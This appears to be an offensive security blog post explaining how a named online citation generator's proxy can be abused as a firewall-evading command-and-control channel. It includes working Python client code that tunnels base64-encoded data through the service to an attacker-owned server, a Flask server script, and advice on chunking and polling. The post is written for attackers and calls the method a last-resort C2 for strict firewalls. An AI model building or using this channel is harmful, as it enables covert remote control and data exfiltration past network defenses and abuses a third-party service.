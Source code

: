 ```yaml
---
layout: page
title: Citation generator C2
---
```

By abusing [APA citation generators](https://www.scribbr.com/citation/generator/apa/), we are able to send requests to any server we own, which allows for bidirectional communication. Note that this C2 method still requires you to own a server, and is vulnerable to legal takedowns, but it is extremely effective in bypassing firewalls, including whitelist-based ones. Essentially, it would work on any network where you can access [this](https://www.scribbr.com/citation/generator/apa/) site.
## How it works
> Cite a webpage, book, article, and more

Visiting the website, you will realize that you can cite webpages. If you inspect the network traffic, you see that they send a request to your site of choice **through a proxy**. This, in terms of C2, is like striking gold. Now, you might be wondering, why would anyone send your requests through a proxy, when the request can just be made from the machine of the person trying to cite the page? The answer is simple - [CSRF](https://en.wikipedia.org/wiki/Cross-site_request_forgery#Client-side_safeguards). As most browsers block cross-origin requests except to sites that specifically allow it (which is a very small minority), pretty much all requests made by a client to arbitrary sites would be blocked by this. As such, they are forced to send a request to their own proxy servers, which then forwards it to your webserver of choice. The server then returns the title of the webpage you requested, which is meant to be used in a citation.
## Abusing this for C2
Inspecting the network traffic, we are able to recreate the requests needed to simulate a citation generation. As such, we can piece together this code:
```py
import requests, json, base64
text = """Lorem ipsum dolor sit amet, consectetur adipiscing elit."""
def query(text):
    json_data = {
        'query': 'http://[your server]/cite?data='+base64.b64encode(text.encode()).decode().split("=")[0],
        'type': 'query',
        'requestedSourceType': 'journal-article',
        'orderBy': 'relevance',
    }

    resp = requests.post('https://autocite.cgs.scribbr.com/autocite', json=json_data).json()
    if "error" in resp:
        return resp["error"]
    response = requests.get('https://autocite.cgs.scribbr.com/autocite/'+resp["requestId"])
    out = base64.b64decode(json.loads(response.text.split("\n")[1].split("data: ")[1])["sources"][0]["data"]["title"].encode()).decode()
    return out
print(query(text))
```
We work with everything using base64 encoding, to prevent special characters from messing up communications. As we know that the citation proxy only returns a title, we will also need a custom server script to allow for bidirectional communication. We can do so using Flask:
```py
from flask import request, Flask
app = Flask(__name__)
import requests
from requests.structures import CaseInsensitiveDict
import base64

@app.route("/cite" , methods=['GET'])
def citation():
    data = request.args['data']
    b= "<head><title>"+base64.b64encode(base64.b64decode(data.encode("ascii")+b"==")+b" [MODIFIED]").decode()+"</title></head><body>Lorem ipsum dolor sit amet</body>"
    print(base64.b64decode(data.encode("ascii")+b"==").decode())
    return b
    
if __name__ == "__main__":
	from waitress import serve
	serve(app, host="0.0.0.0", port=1337)
```
The client-side code  is also simple enough to translate into any language of your choice, such as C. Using a simple polling cycle, effective C2 can be established, along with fully bidirectional communications.
## Limits
We noted that due to the base64 encoding, a maximum of approximately 730 characters could be transmitted at once. As such, we recommend chunking long messages into blocks of 500 characters to ensure no data is lost or truncated. We also note that there is 2 network requests required to establish bidirectional communication, something which could result in greater network overhead and more latency. We have also not verified if any ratelimits are present that may affect communications.

In conclusion, this is a very robust method that can evade very strict firewalls. This method also stands out as it does not abuse domain fronting, allowing it to bypass TLS inspections too. However, due to the high network overhead and potential for rate limiting, as well as easy mitigation (by simply using CAPTCHAs), we feel that this should only be used as a last resort C2 for the strictest firewalls, where all other communication methods fail.
